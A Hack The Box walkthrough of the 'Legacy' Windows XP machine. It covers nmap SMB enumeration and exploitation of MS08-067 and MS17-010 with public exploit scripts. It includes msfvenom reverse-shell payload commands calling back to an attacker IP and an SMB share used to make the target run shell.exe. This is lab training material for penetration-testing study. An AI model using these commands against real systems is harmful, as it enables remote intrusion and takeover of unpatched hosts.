




# \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br>  <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"></a> | </a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Server Message Block](#server-message-block)
- [Foothold](#foothold)
	- [Microsoft Windows Server 2000/2003 - Code Execution \(MS08-067\)](#microsoft-windows-server-20002003---code-execution-ms08-067)
	- [Microsoft Security Bulletin MS17-010 \(EternalBlue/MS17-010\)](#microsoft-security-bulletin-ms17-010-eternalbluems17-010)
	- [Transfer and execute file using python smb](#transfer-and-execute-file-using-python-smb)
- [Reference](#reference)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

+ SMB Windows XP

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 16:50 +07
Nmap scan report for 10.10.10.4
Host is up (0.26s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m07s, deviation: 2h07m16s, median: 4d22h59m07s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:e0:2d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-05-02T14:49:37+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.45 seconds
```

### Server Message Block

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
<snip>
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
<snip>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
<snip>
```

## Foothold

### Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)

Using exploit <a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">ms08-067.py</a> to get reverse shell in the server.

Modify exploit by `REPLACE SHELLCODE with shellcode generated by msfvenom` with the bad chars: `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Convert `ms08-067.py` to python3

```
2to3 ms08-067.py
```

Execute exploit

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```



### Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)

Using exploit `send_and_execute.py` at <a href='https://github.com/helviojunior/MS17-010' target="blank">https://github.com/helviojunior/MS17-010</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Execute exploit

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```



I also custom exploit file by input command to execution.

```
sudo smbserver.py public . > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.3\public\shell.exe' > /dev/null
```



### Transfer and execute file using python smb

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

At the client, execute command `whoami`

```
\\10.10.14.3\public\whoami.exe
```

## Reference

[https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">https://0xdf.gitlab.io/2019/02/21/htb-legacy.html</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">https://pycryptodome.readthedocs.io/en/latest/src/installation.html</a>